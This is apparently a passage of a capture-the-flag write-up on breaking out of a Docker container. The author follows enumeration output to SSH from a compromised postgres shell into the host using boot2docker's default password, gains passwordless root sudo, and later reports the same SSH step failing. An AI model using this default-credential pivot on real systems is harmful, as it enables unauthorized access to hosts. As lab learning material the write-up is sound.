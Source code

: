```
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts                                
═╣ /proc mounted? ................. No                                                                                                                   <! --- SNIPPED --- !>                                                                                                                 
═╣ /proc/config.gz readable ....... No                                                                                                                   
═╣ /proc/sched_debug readable ..... No                                                                                                                   
═╣ /proc/*/mountinfo readable ..... Yes 
═╣ /sys/kernel/security present ... No
═╣ /sys/kernel/security writable .. No
```

The `Breakout Via Mounts` enabled for `/proc/*/mountinfo readable`. I was able to SSH into docker with the following method.

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
ssh docker@172.17.0.1
docker@172.17.0.1's password: tcuser  // This is a default password for boot2docker.

   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$ whoami
whoami
docker
docker@box:~$  
docker@box:~$ sudo -l                                                          
sudo -l
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
```

From here I used writeup but the SSH command `ssh docker@172.17.0.1` just don't work on the box. I tried lot of things but it didn't help

```
postgres@bc56e3cc55e9:/$ ssh docker@172.17.0.1
ssh docker@172.17.0.1
Pseudo-terminal will not be allocated because stdin is not a terminal.
Permission denied, please try again.
Permission denied, please try again.
docker@172.17.0.1: Permission denied (publickey,password,keyboard-interactive).

```